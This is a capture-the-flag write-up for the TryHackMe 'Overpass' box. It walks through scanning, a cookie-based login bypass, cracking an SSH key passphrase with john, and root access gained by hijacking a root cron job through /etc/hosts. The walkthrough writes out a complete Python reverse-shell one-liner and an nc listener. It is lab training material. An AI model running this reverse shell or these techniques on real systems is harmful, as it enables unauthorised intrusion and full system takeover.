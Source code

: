# 'Overpass' box writeup
## Overpass is a CTF box written by NinjaJc01 and available on the [TryHackMe](https://tryhackme.com/) platform.
## Read about [Broken Authentication](https://www.youtube.com/watch?v=mruO75ONWy8), [OWASP A2](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)
# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **Let's start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.107.5``

+ **We can clearly see 2 ports open, ssh and a http, configured on default ports**

# ![1](images/nmap_scan_ov(1).jpg?raw=true "nmap_scan")

+ **Visiting the http web-site, we are welcomed by a page which contains info about a specific password-manager app built by some developers. We also see a download link button**

# ![2](images/visit.png?raw=true "visit")

**Accessing the download page, we can look through the Source code of the password-manager app. It looks like it's written in go language which encrypt passwords with the ROT47 algorithm**

+ **Let's do a gobuster scan of the web site**

``gobuster dir -u http://10.10.107.5/ -w /usr/share/wordlists/dirb/big.txt``

# ![3](images/admin.jpg?raw=true "admin")

+ **We can spot an admin page and accessing it, we can see an administrator login area. I tried, unsuccessfully, a SQL injection and then moved on the 2nd OWASP vuln. Let's look into the source code of the page and into some js code**

# ![4](images/scripts.jpg?raw=true "scripts")

**We can clearly see a login.js script so let's look into the source code. The login function seems to be a way to go**

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

+ **The credentials of the login page are sent to a endpoint inside some DB of the box and a session token is used. It seems like the session token is set with the statusOrCookie parameter. If we change the SessionToken value, maybe we can bypass the login. Let's create the cookie with the name of *SessionToken* and any value you want inside it**

# ![5](images/session.jpg?raw=true "sess")

**Now, trying to refresh the page we can observe we bypassed the login auth and a RSA private key of some guy named James is on our screen. Let's save it in some txt file and use it to connect to ssh**

# ![6](images/RSA.jpg?raw=true "rsa")

``chmod 600 id_rsa``

``ssh -i id_rsa james@10.10.107.5``

+ **Trying to connect to ssh, a key is required for our file. Let's use ssh2john to bruteforce our way in: i'm gonna use ssh2john to get our first hash then crack it with john using the rockyou.txt wordlist**

``python ssh2john.py id_rsa > key_hash``
``sudo john key_hash -wordlist=/usr/share/wordlists/rockyou.txt``

# ![7](images/johned.jpg?raw=true "johnny")

**Using our password for the ssh we are in! There's two files into user's home directory: one of them is our user's flag and the other seems to be an update of their encryption app**

# ![8](images/userflag.jpg?raw=true "userfl")

+ **According the message inside the todo.txt file, we can see that james is using the same app to encrypt his password. Listing the hidden files inside his directory we can see another file named** *.overpass* **It seems to be james password so we're gonna use it, but first don't forget to decrypt it, because it's encrypted with ROT47, as they said in the beginning page**

**Running sudo -l command, we cannot se any allowed cmds for james user**

# ![9](images/noturn.jpg?raw=true "noturn")

+ **Let's continue and look into the /etc/crontab file**

``cat /etc/crontab``

# ![10](images/croned.jpg?raw=true "crontab")

+ **We can see a curl command, executed by root, which runs every second and transfer the data from the *buildscript.sh*, the building script for their encrypting app, into terminal, then executed by bash. This script is taken from the machine local web-site, and the domain used is overpass.thm. If we look into the /etc/hosts file we can see the overpass.thm dns belongs to the local ip of the machine**

# ![11](images/hostsetc.png?raw=true "hostsetc")

+ **What if we can run our own script on this machine? If we modify the overpass.thm domain into our local machine domain, we can host locally a python server and upload maybe a python script which get us a reverse shell. The respective script is executed by root so we're gonna get a root shell**

# ![12](images/modify.jpg?raw=true "modify")

**Next step is to create a similar path with the /etc/crontab curl get request from the host - */downloads/src/buildscript.sh*. Let's do this into our local machine and we're gonna host the server into our home directory**

``mkdir downloads``
``mkdir src``

**Now, let's create the *buildscript.sh***

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

# ![13](images/pythoned.jpg?raw=true "pyth")

+ **The last step is to start our server from the home directory (on the 80 port) and then start a listener with nc**

``sudo python -m SimpleHTTPServer 80``

``nc -lvnp 1234``

# ![14](images/rootflagos.jpg?raw=true "flagos")

**And we are root! It was a nice box with a very important vulnerability based on the Broken Authentication and some exploiting crontab service. All thanks goes to the creator, NinjaJc01!**







